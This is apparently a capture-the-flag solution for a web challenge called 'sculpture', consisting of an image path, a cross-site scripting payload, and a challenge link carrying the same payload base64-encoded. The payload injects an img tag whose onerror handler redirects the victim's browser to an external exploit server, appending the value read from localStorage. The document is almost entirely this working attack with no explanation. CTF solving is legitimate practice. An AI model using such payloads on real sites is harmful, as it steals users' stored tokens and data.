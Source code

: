 payload:
print "[<]img src='image.gif' onerror='location.replace(&quot;http[:]//exploit-0a0100a804ffb63d8100e32a016200b1.exploit-server.net/exploit?flag=&quot;+localStorage.getItem(&quot;flag&quot;))'[>]"

link:
https[:]//amateurs-ctf-2024-sculpture-challenge.pages.dev/?code=cHJpbnQgIjxpbWcgc3JjPSdpbWFnZS5naWYnIG9uZXJyb3I9J2xvY2F0aW9uLnJlcGxhY2UoJnF1b3Q7aHR0cDovL2V4cGxvaXQtMGEwMTAwYTgwNGZmYjYzZDgxMDBlMzJhMDE2MjAwYjEuZXhwbG9pdC1zZXJ2ZXIubmV0L2V4cGxvaXQ%2FZmxhZz0mcXVvdDsrbG9jYWxTdG9yYWdlLmdldEl0ZW0oJnF1b3Q7ZmxhZyZxdW90OykpJz4i